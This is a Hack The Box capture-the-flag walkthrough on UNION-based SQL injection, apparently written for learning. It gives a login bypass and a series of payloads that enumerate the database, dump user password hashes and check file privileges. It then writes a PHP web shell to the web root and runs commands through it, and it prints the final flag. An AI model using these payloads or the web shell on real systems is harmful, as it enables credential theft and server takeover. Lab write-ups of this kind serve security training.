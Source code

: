 # **HTB - UNION-based SQL Injection**

Author: `adi7312`

This CTF was prepared to help understand UNION-based SQLi. In this walktrough we will not only focus on finding root flag, let's have some fun and use the knowledge that we obtained during this HTB course. 


## **Performing OR Injection**

We are welcomed with login site.


![](c/1.png)


Firstly, we should try the simplest way to bypass login screen - OR Injection!


![](c/2.png)


**Remember to put space after comment sings `--`.**


![](c/3.png)


As we can see, we successfuly bypassed the login site.


## **Enumerating database**

### **Determining number of columns**

We can see search bar (so we can suspect that this 'search' is vulerable to SQLi) and some table with 4 columns. But it doesn't mean that there are only 4 columns in that table, some can be hidden. So we need to determine the exac number of columns in that table, we can use `ORDER BY` clause. Let's try with `' ORDER BY 5 -- `.


![](c/4.png)


As we can see nothing happened, so for sure there minimum 5 columns. Let's check it for 6.


![](c/5.png)

For 6 columns we got error, so definitely we have 5 columns.

### **Determining the visible columns**

Here is the part where UNION-based SQLi is necessary. Let's put the following payload:
```sql
' union select 1,@@version,3,4,5 -- 
```


![](c/6.png)


As a result we can see the first **visible** column contain injected parameter (@@version), but in querry we placed it at second place, so we can determine that first column is not visible for us.


### **Determining schemas, tables and useful columns**

So, we know how many columns we have and which of them are visible, let's further enumerate our database.

```sql
' union select 1,schema_name,3,4,5 from information_schema.schemata-- 
```

![](c/7.png)

We can see interesting database called *ilfreight* let's check its tables.

```sql
' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,4,5 from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- 
```

![](c/8.png)

Table `users` seems to be the most interesting, let's check its columns.

```sql
' UNION SELECT 1,COLUMN_NAME,TABLE_SCHEMA,TABLE_NAME,5 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- 
```


![](c/9.png)


We got some interesting columns: username, password and id. Now we need to list content of that columns.

```sql
' UNION SELECT 1,id,username,password,5 FROM ilfreight.users -- 
```

![](c/10.png)

And we got username and hash user's password! Remember to validate and sanitize user input!

## **CTF part - checking user and his permissions**

Our task is to get root flag. From previous "fun" we know that: we have 5 columns, which only 4 are visible and we can conduct UNION-based SQLi. Let's check the user.

```sql
' UNION SELECT 1,USER(),3,4,5 -- 
```

![](c/11.png)


As we can see the querry are executed by root. Let's check if we have super privileges.

```sql
' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user -- 
```

![](c/12.png)


Yes, the user have super privileges! Let's check also if user has `FILE` privileges. 


![](c/13.png)


Yes, it has FILE privileges. The last thing we need to do ensure that we can WRITE files is to check if SECURE_FILE_PRIV is enabled or disabled (we want it to be disabled).

```sql
' UNION SELECT 1, variable_name, variable_value,4,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```

![](c/14.png)


It doesn't have any value, so it is disabled.

## **CTF part - webshell**

So we know that we can write files, so let's try to write some webshell and upload it using query.

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

After writing `http://site:port/dashboard/shell.php?0=id` we got successful result!


![](c/15.png)


Insted of `id` let's use `ls /` to list main directory.


![](c/16.png)


And we have our flag! The last thing is to print it out.


![](c/17.png)


The final flag: `528d6d9cedc2c7aab146ef226e918396`
